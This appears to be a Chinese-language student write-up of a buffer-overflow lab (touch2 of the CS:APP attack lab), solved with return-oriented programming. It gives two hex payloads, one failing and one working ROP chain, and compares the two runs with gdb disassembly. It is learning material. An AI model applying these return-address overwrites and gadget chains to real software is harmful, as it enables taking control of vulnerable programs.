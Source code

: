 直接构造
```hex
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 2b 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```

理论上这是正确的，在调用touch2时rdi被赋值为正确的值。但是用到了并非tools `farm` 中的函数，实际运行发生了意料之外的`segment fault`

尝试另一种解法，通过rax作为中间函数,通过`ROP`构造这样的gadget序列
```assembly
pop %rax
mov %rax %rdi
ret
```

```hex
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

这个就对了，可以尝试比较这两个输入的执行流

首先查看一下这个PASS的执行流，可见其在执行完cmp`coockie`和edi后jne顺利跳转到visible文件的段中
```assembly
21│ visible.c:
22│    0x0000000000401818 <+44>:    mov    $0x2,%edi
23│    0x000000000040181d <+49>:    call   0x401dad <validate>
24│    0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
```
该处执行到call后跳转至

```assembly
│ 48      in visible.c
38│ 49      in visible.c
39├──> 0x0000000000401842 <+86>:    mov    $0x0,%edi
40│    0x0000000000401847 <+91>:    call   0x400e40 <exit@plt>
```

随后执行到exit结束

然后看一下上面那个错误的执行流,则在比较完edi与rip后直接跳转到了系统库的stdio2.h中
```
14│ /usr/include/x86_64-linux-gnu/bits/stdio2.h:
15│ 105       return __fprintf_chk (__stream, __USE_FORTIFY_LEVEL - 1, __fmt,
16├──> 0x0000000000401804 <+24>:    mov    $0x403208,%esi
17│    0x0000000000401809 <+29>:    mov    $0x1,%edi
18│    0x000000000040180e <+34>:    mov    $0x0,%eax
19│    0x0000000000401813 <+39>:    call   0x400df0 <__printf_chk@plt>
```
可见两者在比较完rip,edi中出现了不同，探索更多信息
